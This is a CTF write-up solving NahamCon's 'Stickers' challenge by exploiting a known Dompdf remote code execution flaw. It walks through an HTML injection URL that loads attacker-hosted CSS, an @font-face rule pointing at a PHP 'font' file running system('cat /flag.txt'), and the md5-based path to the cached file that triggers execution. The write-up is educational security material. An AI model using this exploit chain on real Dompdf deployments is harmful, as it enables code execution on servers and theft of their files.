 XSS 𝔽𝕠𝕟𝕥𝕔𝕖𝕡𝕥𝕚𝕠𝕟

Hello everyone! At the time of release, NahamCon has wrapped up their annual CTF event which I found to be extremely enjoyable and thought-provoking. I found one particular challenge to be very interesting and wanted to showcase the solution to their challenge Stickers.

![](https://miro.medium.com/v2/resize:fit:764/1*fTlKSMltVkq3gYDan3SEsA.png)

The challenge first takes you to a web application that accepts user-supplied input in various forms. Before any testing, I submitted some arbitrary information to see how the application processed this.

![](https://miro.medium.com/v2/resize:fit:764/1*4PncvDKs-U8oJW7UNNdEDg.png)

Upon submission, the input is converted from HTML to PDF.

![](https://miro.medium.com/v2/resize:fit:709/1*8j625j4Wy1R1T4xMROcQWQ.png)

My initial presumption was that this challenge was going to involve either [SSRF](https://portswigger.net/web-security/ssrf) or injecting some PDF code to perform XSS. I read through some great articles on the subject, most particularly, [_Portable Data exFiltration: XSS for PDFs_](https://portswigger.net/research/portable-data-exfiltration)_,_ however, with the flag.txt file residing outside the environment of the PDF, it did not seem of much fruition.

Continuing my testing, analyzing the HTTP response in Burpsuite highlighted something of interest.

![](https://miro.medium.com/v2/resize:fit:392/1*Ooyez2rIai0elmPo0jMwxA.png)

DOMPDF is a PHP library that can be used to easily create PDFs from various HTML pages in PHP. At its core, it allows for the generation of PDF documents from HTML content using the CSS and layout capabilities of the web.

After doing some quick research on the specific version number, it appears to be [vulnerable](https://www.cvedetails.com/vulnerability-list/vendor_id-21291/product_id-64244/version_id-528074/Dompdf-Project-Dompdf--.html) to Remote Code Execution. Because the form fields will accept HTML tags, we can also try and submit a reference to CSS or a CSS file. This vulnerability exists due to the improper input validation of the ‘src’ field of a CSS statement, ultimately allowing PHP code to be embedded within the referenced file. The validation also only ensures the file type is supported, but pays no attention to the contents of the file. Not only does this external style sheet get rendered by the DOMPDF library, but it also is saved in the local cache and then referenced by the DOMPDF framework.

I decided to create a CSS file that will load our external style sheet and render the font file with our embedded PHP.
```CSS
@font-face {  
  font-family:'test';  
  src:url('http://<DOMAIN>:1337/test.php');  
  font-weight:'normal';  
  font-style:'normal';  
}
```


Then I created a test.php file using the exploit font file [here](https://github.com/snyk-labs/php-goof/tree/main/exploits) and changed the PHP payload to the following:

(RAW CONTENT AVAILABLE AT LINK)  
```php
<?php system("cat /flag.txt"); ?>
```

I hosted these files through a python web server and then used a <link rel>
attribute in the _organisation_ parameter to reference the malicious .css and .php. Keep in mind the naming convention of the font file must be the same as the _font-family_ attribute.

```
http://challenege.nahamcon:31583/quote.php?organisation=%3Clink+rel%3Dstylesheet+href%3D%27http%3A%2F%2F<IP>:<ListeningPort>/test.css%27%3E&email=email%40email.com&small=1&medium=2&large=4
```

To execute our embedded PHP, we need to reference the file name of the cached font. This [article](https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf) by Optiv details the fairly simple naming convention of these cached fonts.

```
filename = fontname+_+style+_+md5 hash+.+file extension
```

While this may sound overly complex, the solution is quite simple. We can easily calculate the MD5 hash by running the command:

```bash
echo -n "http://<IP>:<PORT>/test.php" |md5sum
```

Using this output we can navigate to where our cached font file resides by supplying the file path /dompdf/lib/fonts/test_normal_<md5hash>.php in the URL. Upon navigating to the link our embedded PHP code is executed returning the contents of the flag.txt file.

![](https://miro.medium.com/v2/resize:fit:764/1*Cs5nhwywcFtOLxcsK4uPSg.png)

If you’ve made it this far, I hope you may have learned something new. I sure did and found this challenge to be fairly difficult, but quite rewarding. Thanks for STICKERing around…

**Resources/Links:**

(https://snyk.io/blog/security-alert-php-pdf-library-dompdf-rce/)(https://snyk.io/blog/security-alert-php-pdf-library-dompdf-rce/)  
(https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf)(https://www.optiv.com/insights/source-zero/blog/exploiting-rce-vulnerability-dompdf)  
(https://github.com/positive-security/dompdf-rce/](https://github.com/positive-security/dompdf-rce/)
